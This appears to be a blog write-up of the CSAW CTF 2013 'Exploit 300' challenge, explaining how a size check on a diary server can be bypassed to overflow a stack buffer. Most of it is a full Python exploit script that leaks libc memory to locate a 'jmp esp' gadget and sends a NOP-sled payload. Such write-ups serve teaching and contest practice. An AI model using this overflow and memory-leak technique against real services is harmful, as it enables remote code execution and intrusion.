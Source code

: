 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 300 (CSAW Diary)"
---
```


This challenge is a diary server listening on port 34266. When we first connect it prompt us to enter a password and an username. Both value are hardcoded in the application and can be retrieved through reverse engineering. Username is `csaw2013` and password is `S1mplePWD`.

Once we are logged we are prompt to enter a new entry into the diary. We first enter the size of the entry text message and then we enter the entry content.

The exploit is that the size we send first is then used by `recv` to read our entry into a fixed sized buffer of `0x400` bytes. Note that there is a check to see if the size we provided is below `0x400`, but giving a 2 bytes negative number such a `0xFFFF` would pass the test, but still read `0xFFFF` bytes of data, allowing us to smash the stack and overwrite the return adresse.

Since there were no `jmp esp` instruction in the program, I scanned the libc to find an adresse we could return to that would then jump on the shellcode in the buffer. The exploit script used is:

```python

#!/usr/bin/env python

import socket
import sys
import struct
from struct import pack

host = '128.238.66.217'
port = 34266

shellcode = ''

user = 'csaw2013'
pwd = 'S1mplePWD'

def read_until(s, a):
  data = ''
  while data.find(a) == -1:
    data = s.recv(4096)

def connect_to_host():

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))

  read_until(s,'UserName')
  s.send(user)
  read_until(s,'Password')
  s.send(pwd)
  read_until(s,'Entry')
  s.send(str(0xFFFF))

  return s

ret_off = 0x420
def exploit(offset):

  s = connect_to_host()
  print 'connected'
  payload = ('\x55' * ret_off) + pack("I", offset) + '\x90'*32 + shellcode
  s.send(payload)
  print 'payload sent'
  s.close()

def leak(offset, size):

  s = connect_to_host()
  off_send = pack("I", 0x080488B0)

  payload = ('\x55' * ret_off) + off_send

  payload += pack('<I', 0x080487a0) # exit
  payload += pack('<I', 0x4) # fd
  payload += pack('<I', offset)
  payload += pack('<I', size) # len
  payload += pack('<I', 0x40) # flags

  payload += '\x90'*32 + shellcode

  s.send(payload)

  result = ''
  data = True

  while data:
    data = s.recv(1024)
    result += data
  s.close()

  return result

def find_jmp_esp():
  gots = leak(0x0804af80, 4)  # The offset of the got entries.
  print 'gots: %s' % repr(gots)

  libc_guess = struct.unpack('I', gots[:4])[0]
  print 'libc_guess: %s' % hex(libc_guess)

  buf_base = libc_guess - (libc_guess % 0x1000)

  buf = leak(buf_base, 4096)
  while buf:
    print hex(buf_base)
    jmp_esp = buf.find("\xff\xe4")  # jmp esp
    if jmp_esp != -1:
      return buf_base + jmp_esp
    else:
      buf_base += len(buf)
      buf = leak(buf_base, 4096)

  return 0

jmpesp_addr = find_jmp_esp()
print 'jmpesp_addr: ', hex(jmpesp_addr)
exploit(jmpesp_addr)

```

